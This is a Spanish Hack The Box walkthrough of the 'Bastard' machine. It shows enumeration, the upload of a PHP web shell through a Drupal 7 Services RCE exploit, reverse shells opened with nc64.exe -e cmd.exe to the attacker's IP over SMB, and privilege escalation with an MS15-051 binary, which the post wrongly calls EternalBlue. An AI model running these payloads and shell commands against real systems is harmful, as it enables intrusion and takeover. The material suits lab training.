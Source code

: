 ```yaml
---
layout: post
title: Bastard
date: 2022-11-17
categories: ["HTB", "Enumeration", "Drupal", "RCE", "EternalBlue"]
thumbnail: "assets/images/Bastard.png"
---
```


# Bastard [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.9 -oG allPorts`
- `nmap -sCV -p80,135 10.10.10.9 -oN targeted`

`NMAP` nos dice la versión de `Drupal`, en este caso `7`.

### Inspección

Vemos que `NMAP` (además de la versión de `Drupal`) nos dice que el archivo `robots.txt` existe, así que vamos a verlo y vemos un `TXT` llamado `CHANGELOG.txt`, al abrirlo podemos ver (como su nombre indica) los cambios realizados a `Drupal`, vemos que la versión que tienen instalada es la `7.54`, lanzada día uno de febrero del 2017.

```
Drupal 7.54, 2017-02-01
-----------------------

- Modules are now able to define theme engines (API addition:
https://www.drupal.org/node/2826480).
- Logging of searches can now be disabled (new option in the administrative
interface).
- Added menu tree render structure to (pre-)process hooks for theme_menu_tree()
(API addition: https://www.drupal.org/node/2827134).
- Added new function for determining whether an HTTPS request is being served
```

Con SearchSploit buscamos por `Drupal` y nos aparecen muchos `exploits`, pero vemos uno que sirve para todas las versiones de `Drupal 7`, por lo que usaremos ese.

```
Drupal 7.x Module Services - Remote Code Execution | exploits/php/webapps/41564.php
```

Para poder copiarlo en el directorio en el que estamos usaremos el parámetro `-m` y especificaremos la ruta, en este caso: `exploits/php/webapps/41564.php`

- `searchsploit -m exploits/php/webapps/41564.php`

Vemos que el `script` requiere de dos cosas, la `URL` y la ruta `endpoint`, para obtener la ruta usaremos [`DirSearch`](https://github.com/maurosoria/dirsearch), una herramienta que nos ayudará a encontrar directorios y archivos. Lo bueno de [`DirSearch`](https://github.com/maurosoria/dirsearch) es que ya tiene implementado un diccionario propio con las rutas y archivos más importantes y comunes.

Con esto claro procederemos a ejecutar la herramienta, el parámetro `-e` es para especificar la extensión, en este caso `PHP` aunque también encontrará rutas. El parámetro `-x` es para excluir códigos de estado y, por último, el parámetro `-t`, que sirve para especificar la cantidad de hilos a utilizar.

```
dirsearch.py -u "http://10.10.10.9/" -e php -x 403,404 -t 50
```

```
_|. _ _ _ _ _ _|_ v0.3.
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 50 | Wordlist size: 5963

Error Log: /opt/dirsearch/logs/errors-19-03-07_11-06-02.log

Target: http://10.10.10.9/

[...]
[12:02:32] 200 - 2KB - /robots.txt
[12:02:37] 200 - 62B - /rest/
[...]

Task Completed
```

Como vemos hemos encontrado una ruta con el nombre `rest`, la cual si le enviamos una petición nos sale lo siguiente:

```
Services Endpoint "rest_endpoint" has been setup successfully.
```

Bien! Ya tenemos todos los requisitos para poder explotarlo! Aunque antes tenemos que cambiar algunos parámetros del archivo `PHP` antes descargado.

```
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
'filename' => 'black.php',
'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

Vemos que el parámetro `data` es algo extraño, lo puse así para una vez creado el archivo `PHP` pasarle (con el parámetro `cmd`) el comando para ejecutarlo a nivel de sistema.

Bien! Ahora podemos ejecutar el archivo con `php` para que nuestro archivo malicioso se suba.

- `php 41564.php`

```
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce

#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/black.php
```

- `curl http://10.10.10.9/black.php?cmd=whoami`

```
nt authority\iusr
```

### Shell

Bien! Ahora que ya podemos ejecutar comandos a nivel de sistema de una forma más cómoda podemos utilizar [`smbserver.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) del repositorio [`Impacket`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) para subir el `EXE` de `NC` y así poder entablarnos una conexión, ya que si tratamos de mandar una petición normal no nos dejará.

- `smbserver.py black .`
- `rlwrap -cAr nc -nlvp 4444`

Una vez hayamos creado el servidor `SMB` y habernos puesto en escucha por el puerto que nosotros queramos podemos visitar la siguiente `URL`:

```
http://10.10.10.9/black.php?cmd=\\10.10.14.15\black\nc64.exe -e cmd.exe 10.10.14.9 4444
```
Bien! Ya estamos dentro de la máquina como `IUSR`!

### Subida de privilegios

Estupendo, ya estamos en la máquina, pero queremos ser administradores, así que comencé por enumerar el sistema con `systeminfo` y me fijé que era `Windows Server 2008`, por lo que estaba bastante desactualizado.

Tras hacer una pequeña búsqueda encontré que era vulnerable a `EternalBlue`, así que para explotarlo me descargué un ZIP del repositorio [`Windows Kernel Exploit`](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051), el cual contenía un archivo `EXE` llamado `ms15-051x64.exe`.

Antes de nada me gustaría probar si funciona, así que me montaré el servidor de nuevo.

- `smbserver.py black .`

```
PS C:\inetpub\drupal-7.54> \\10.10.14.15\black\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 3012 created.
==============================
nt authority\system
```

Funciona! De nuevo utilizaré el servidor `SMB` para transferir el archivo a la máquina víctima y, con `NC`, entablarnos una Reverse Shell. Por lo que nos ponemos en escucha por el puerto que queramos con `NC`.

- `rlwrap -cAr nc -nlvp 443`

```
C:\inetpub\drupal-7.54>\\10.10.14.15\black\ms15-051x64.exe
"\\10.10.14.15\black\nc64.exe -e cmd.exe 10.10.14.15 443"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1612 created.
==============================
```
Enhorabuena! Hemos recibido la Reverse Shell y ya somos administradores de la máquina!
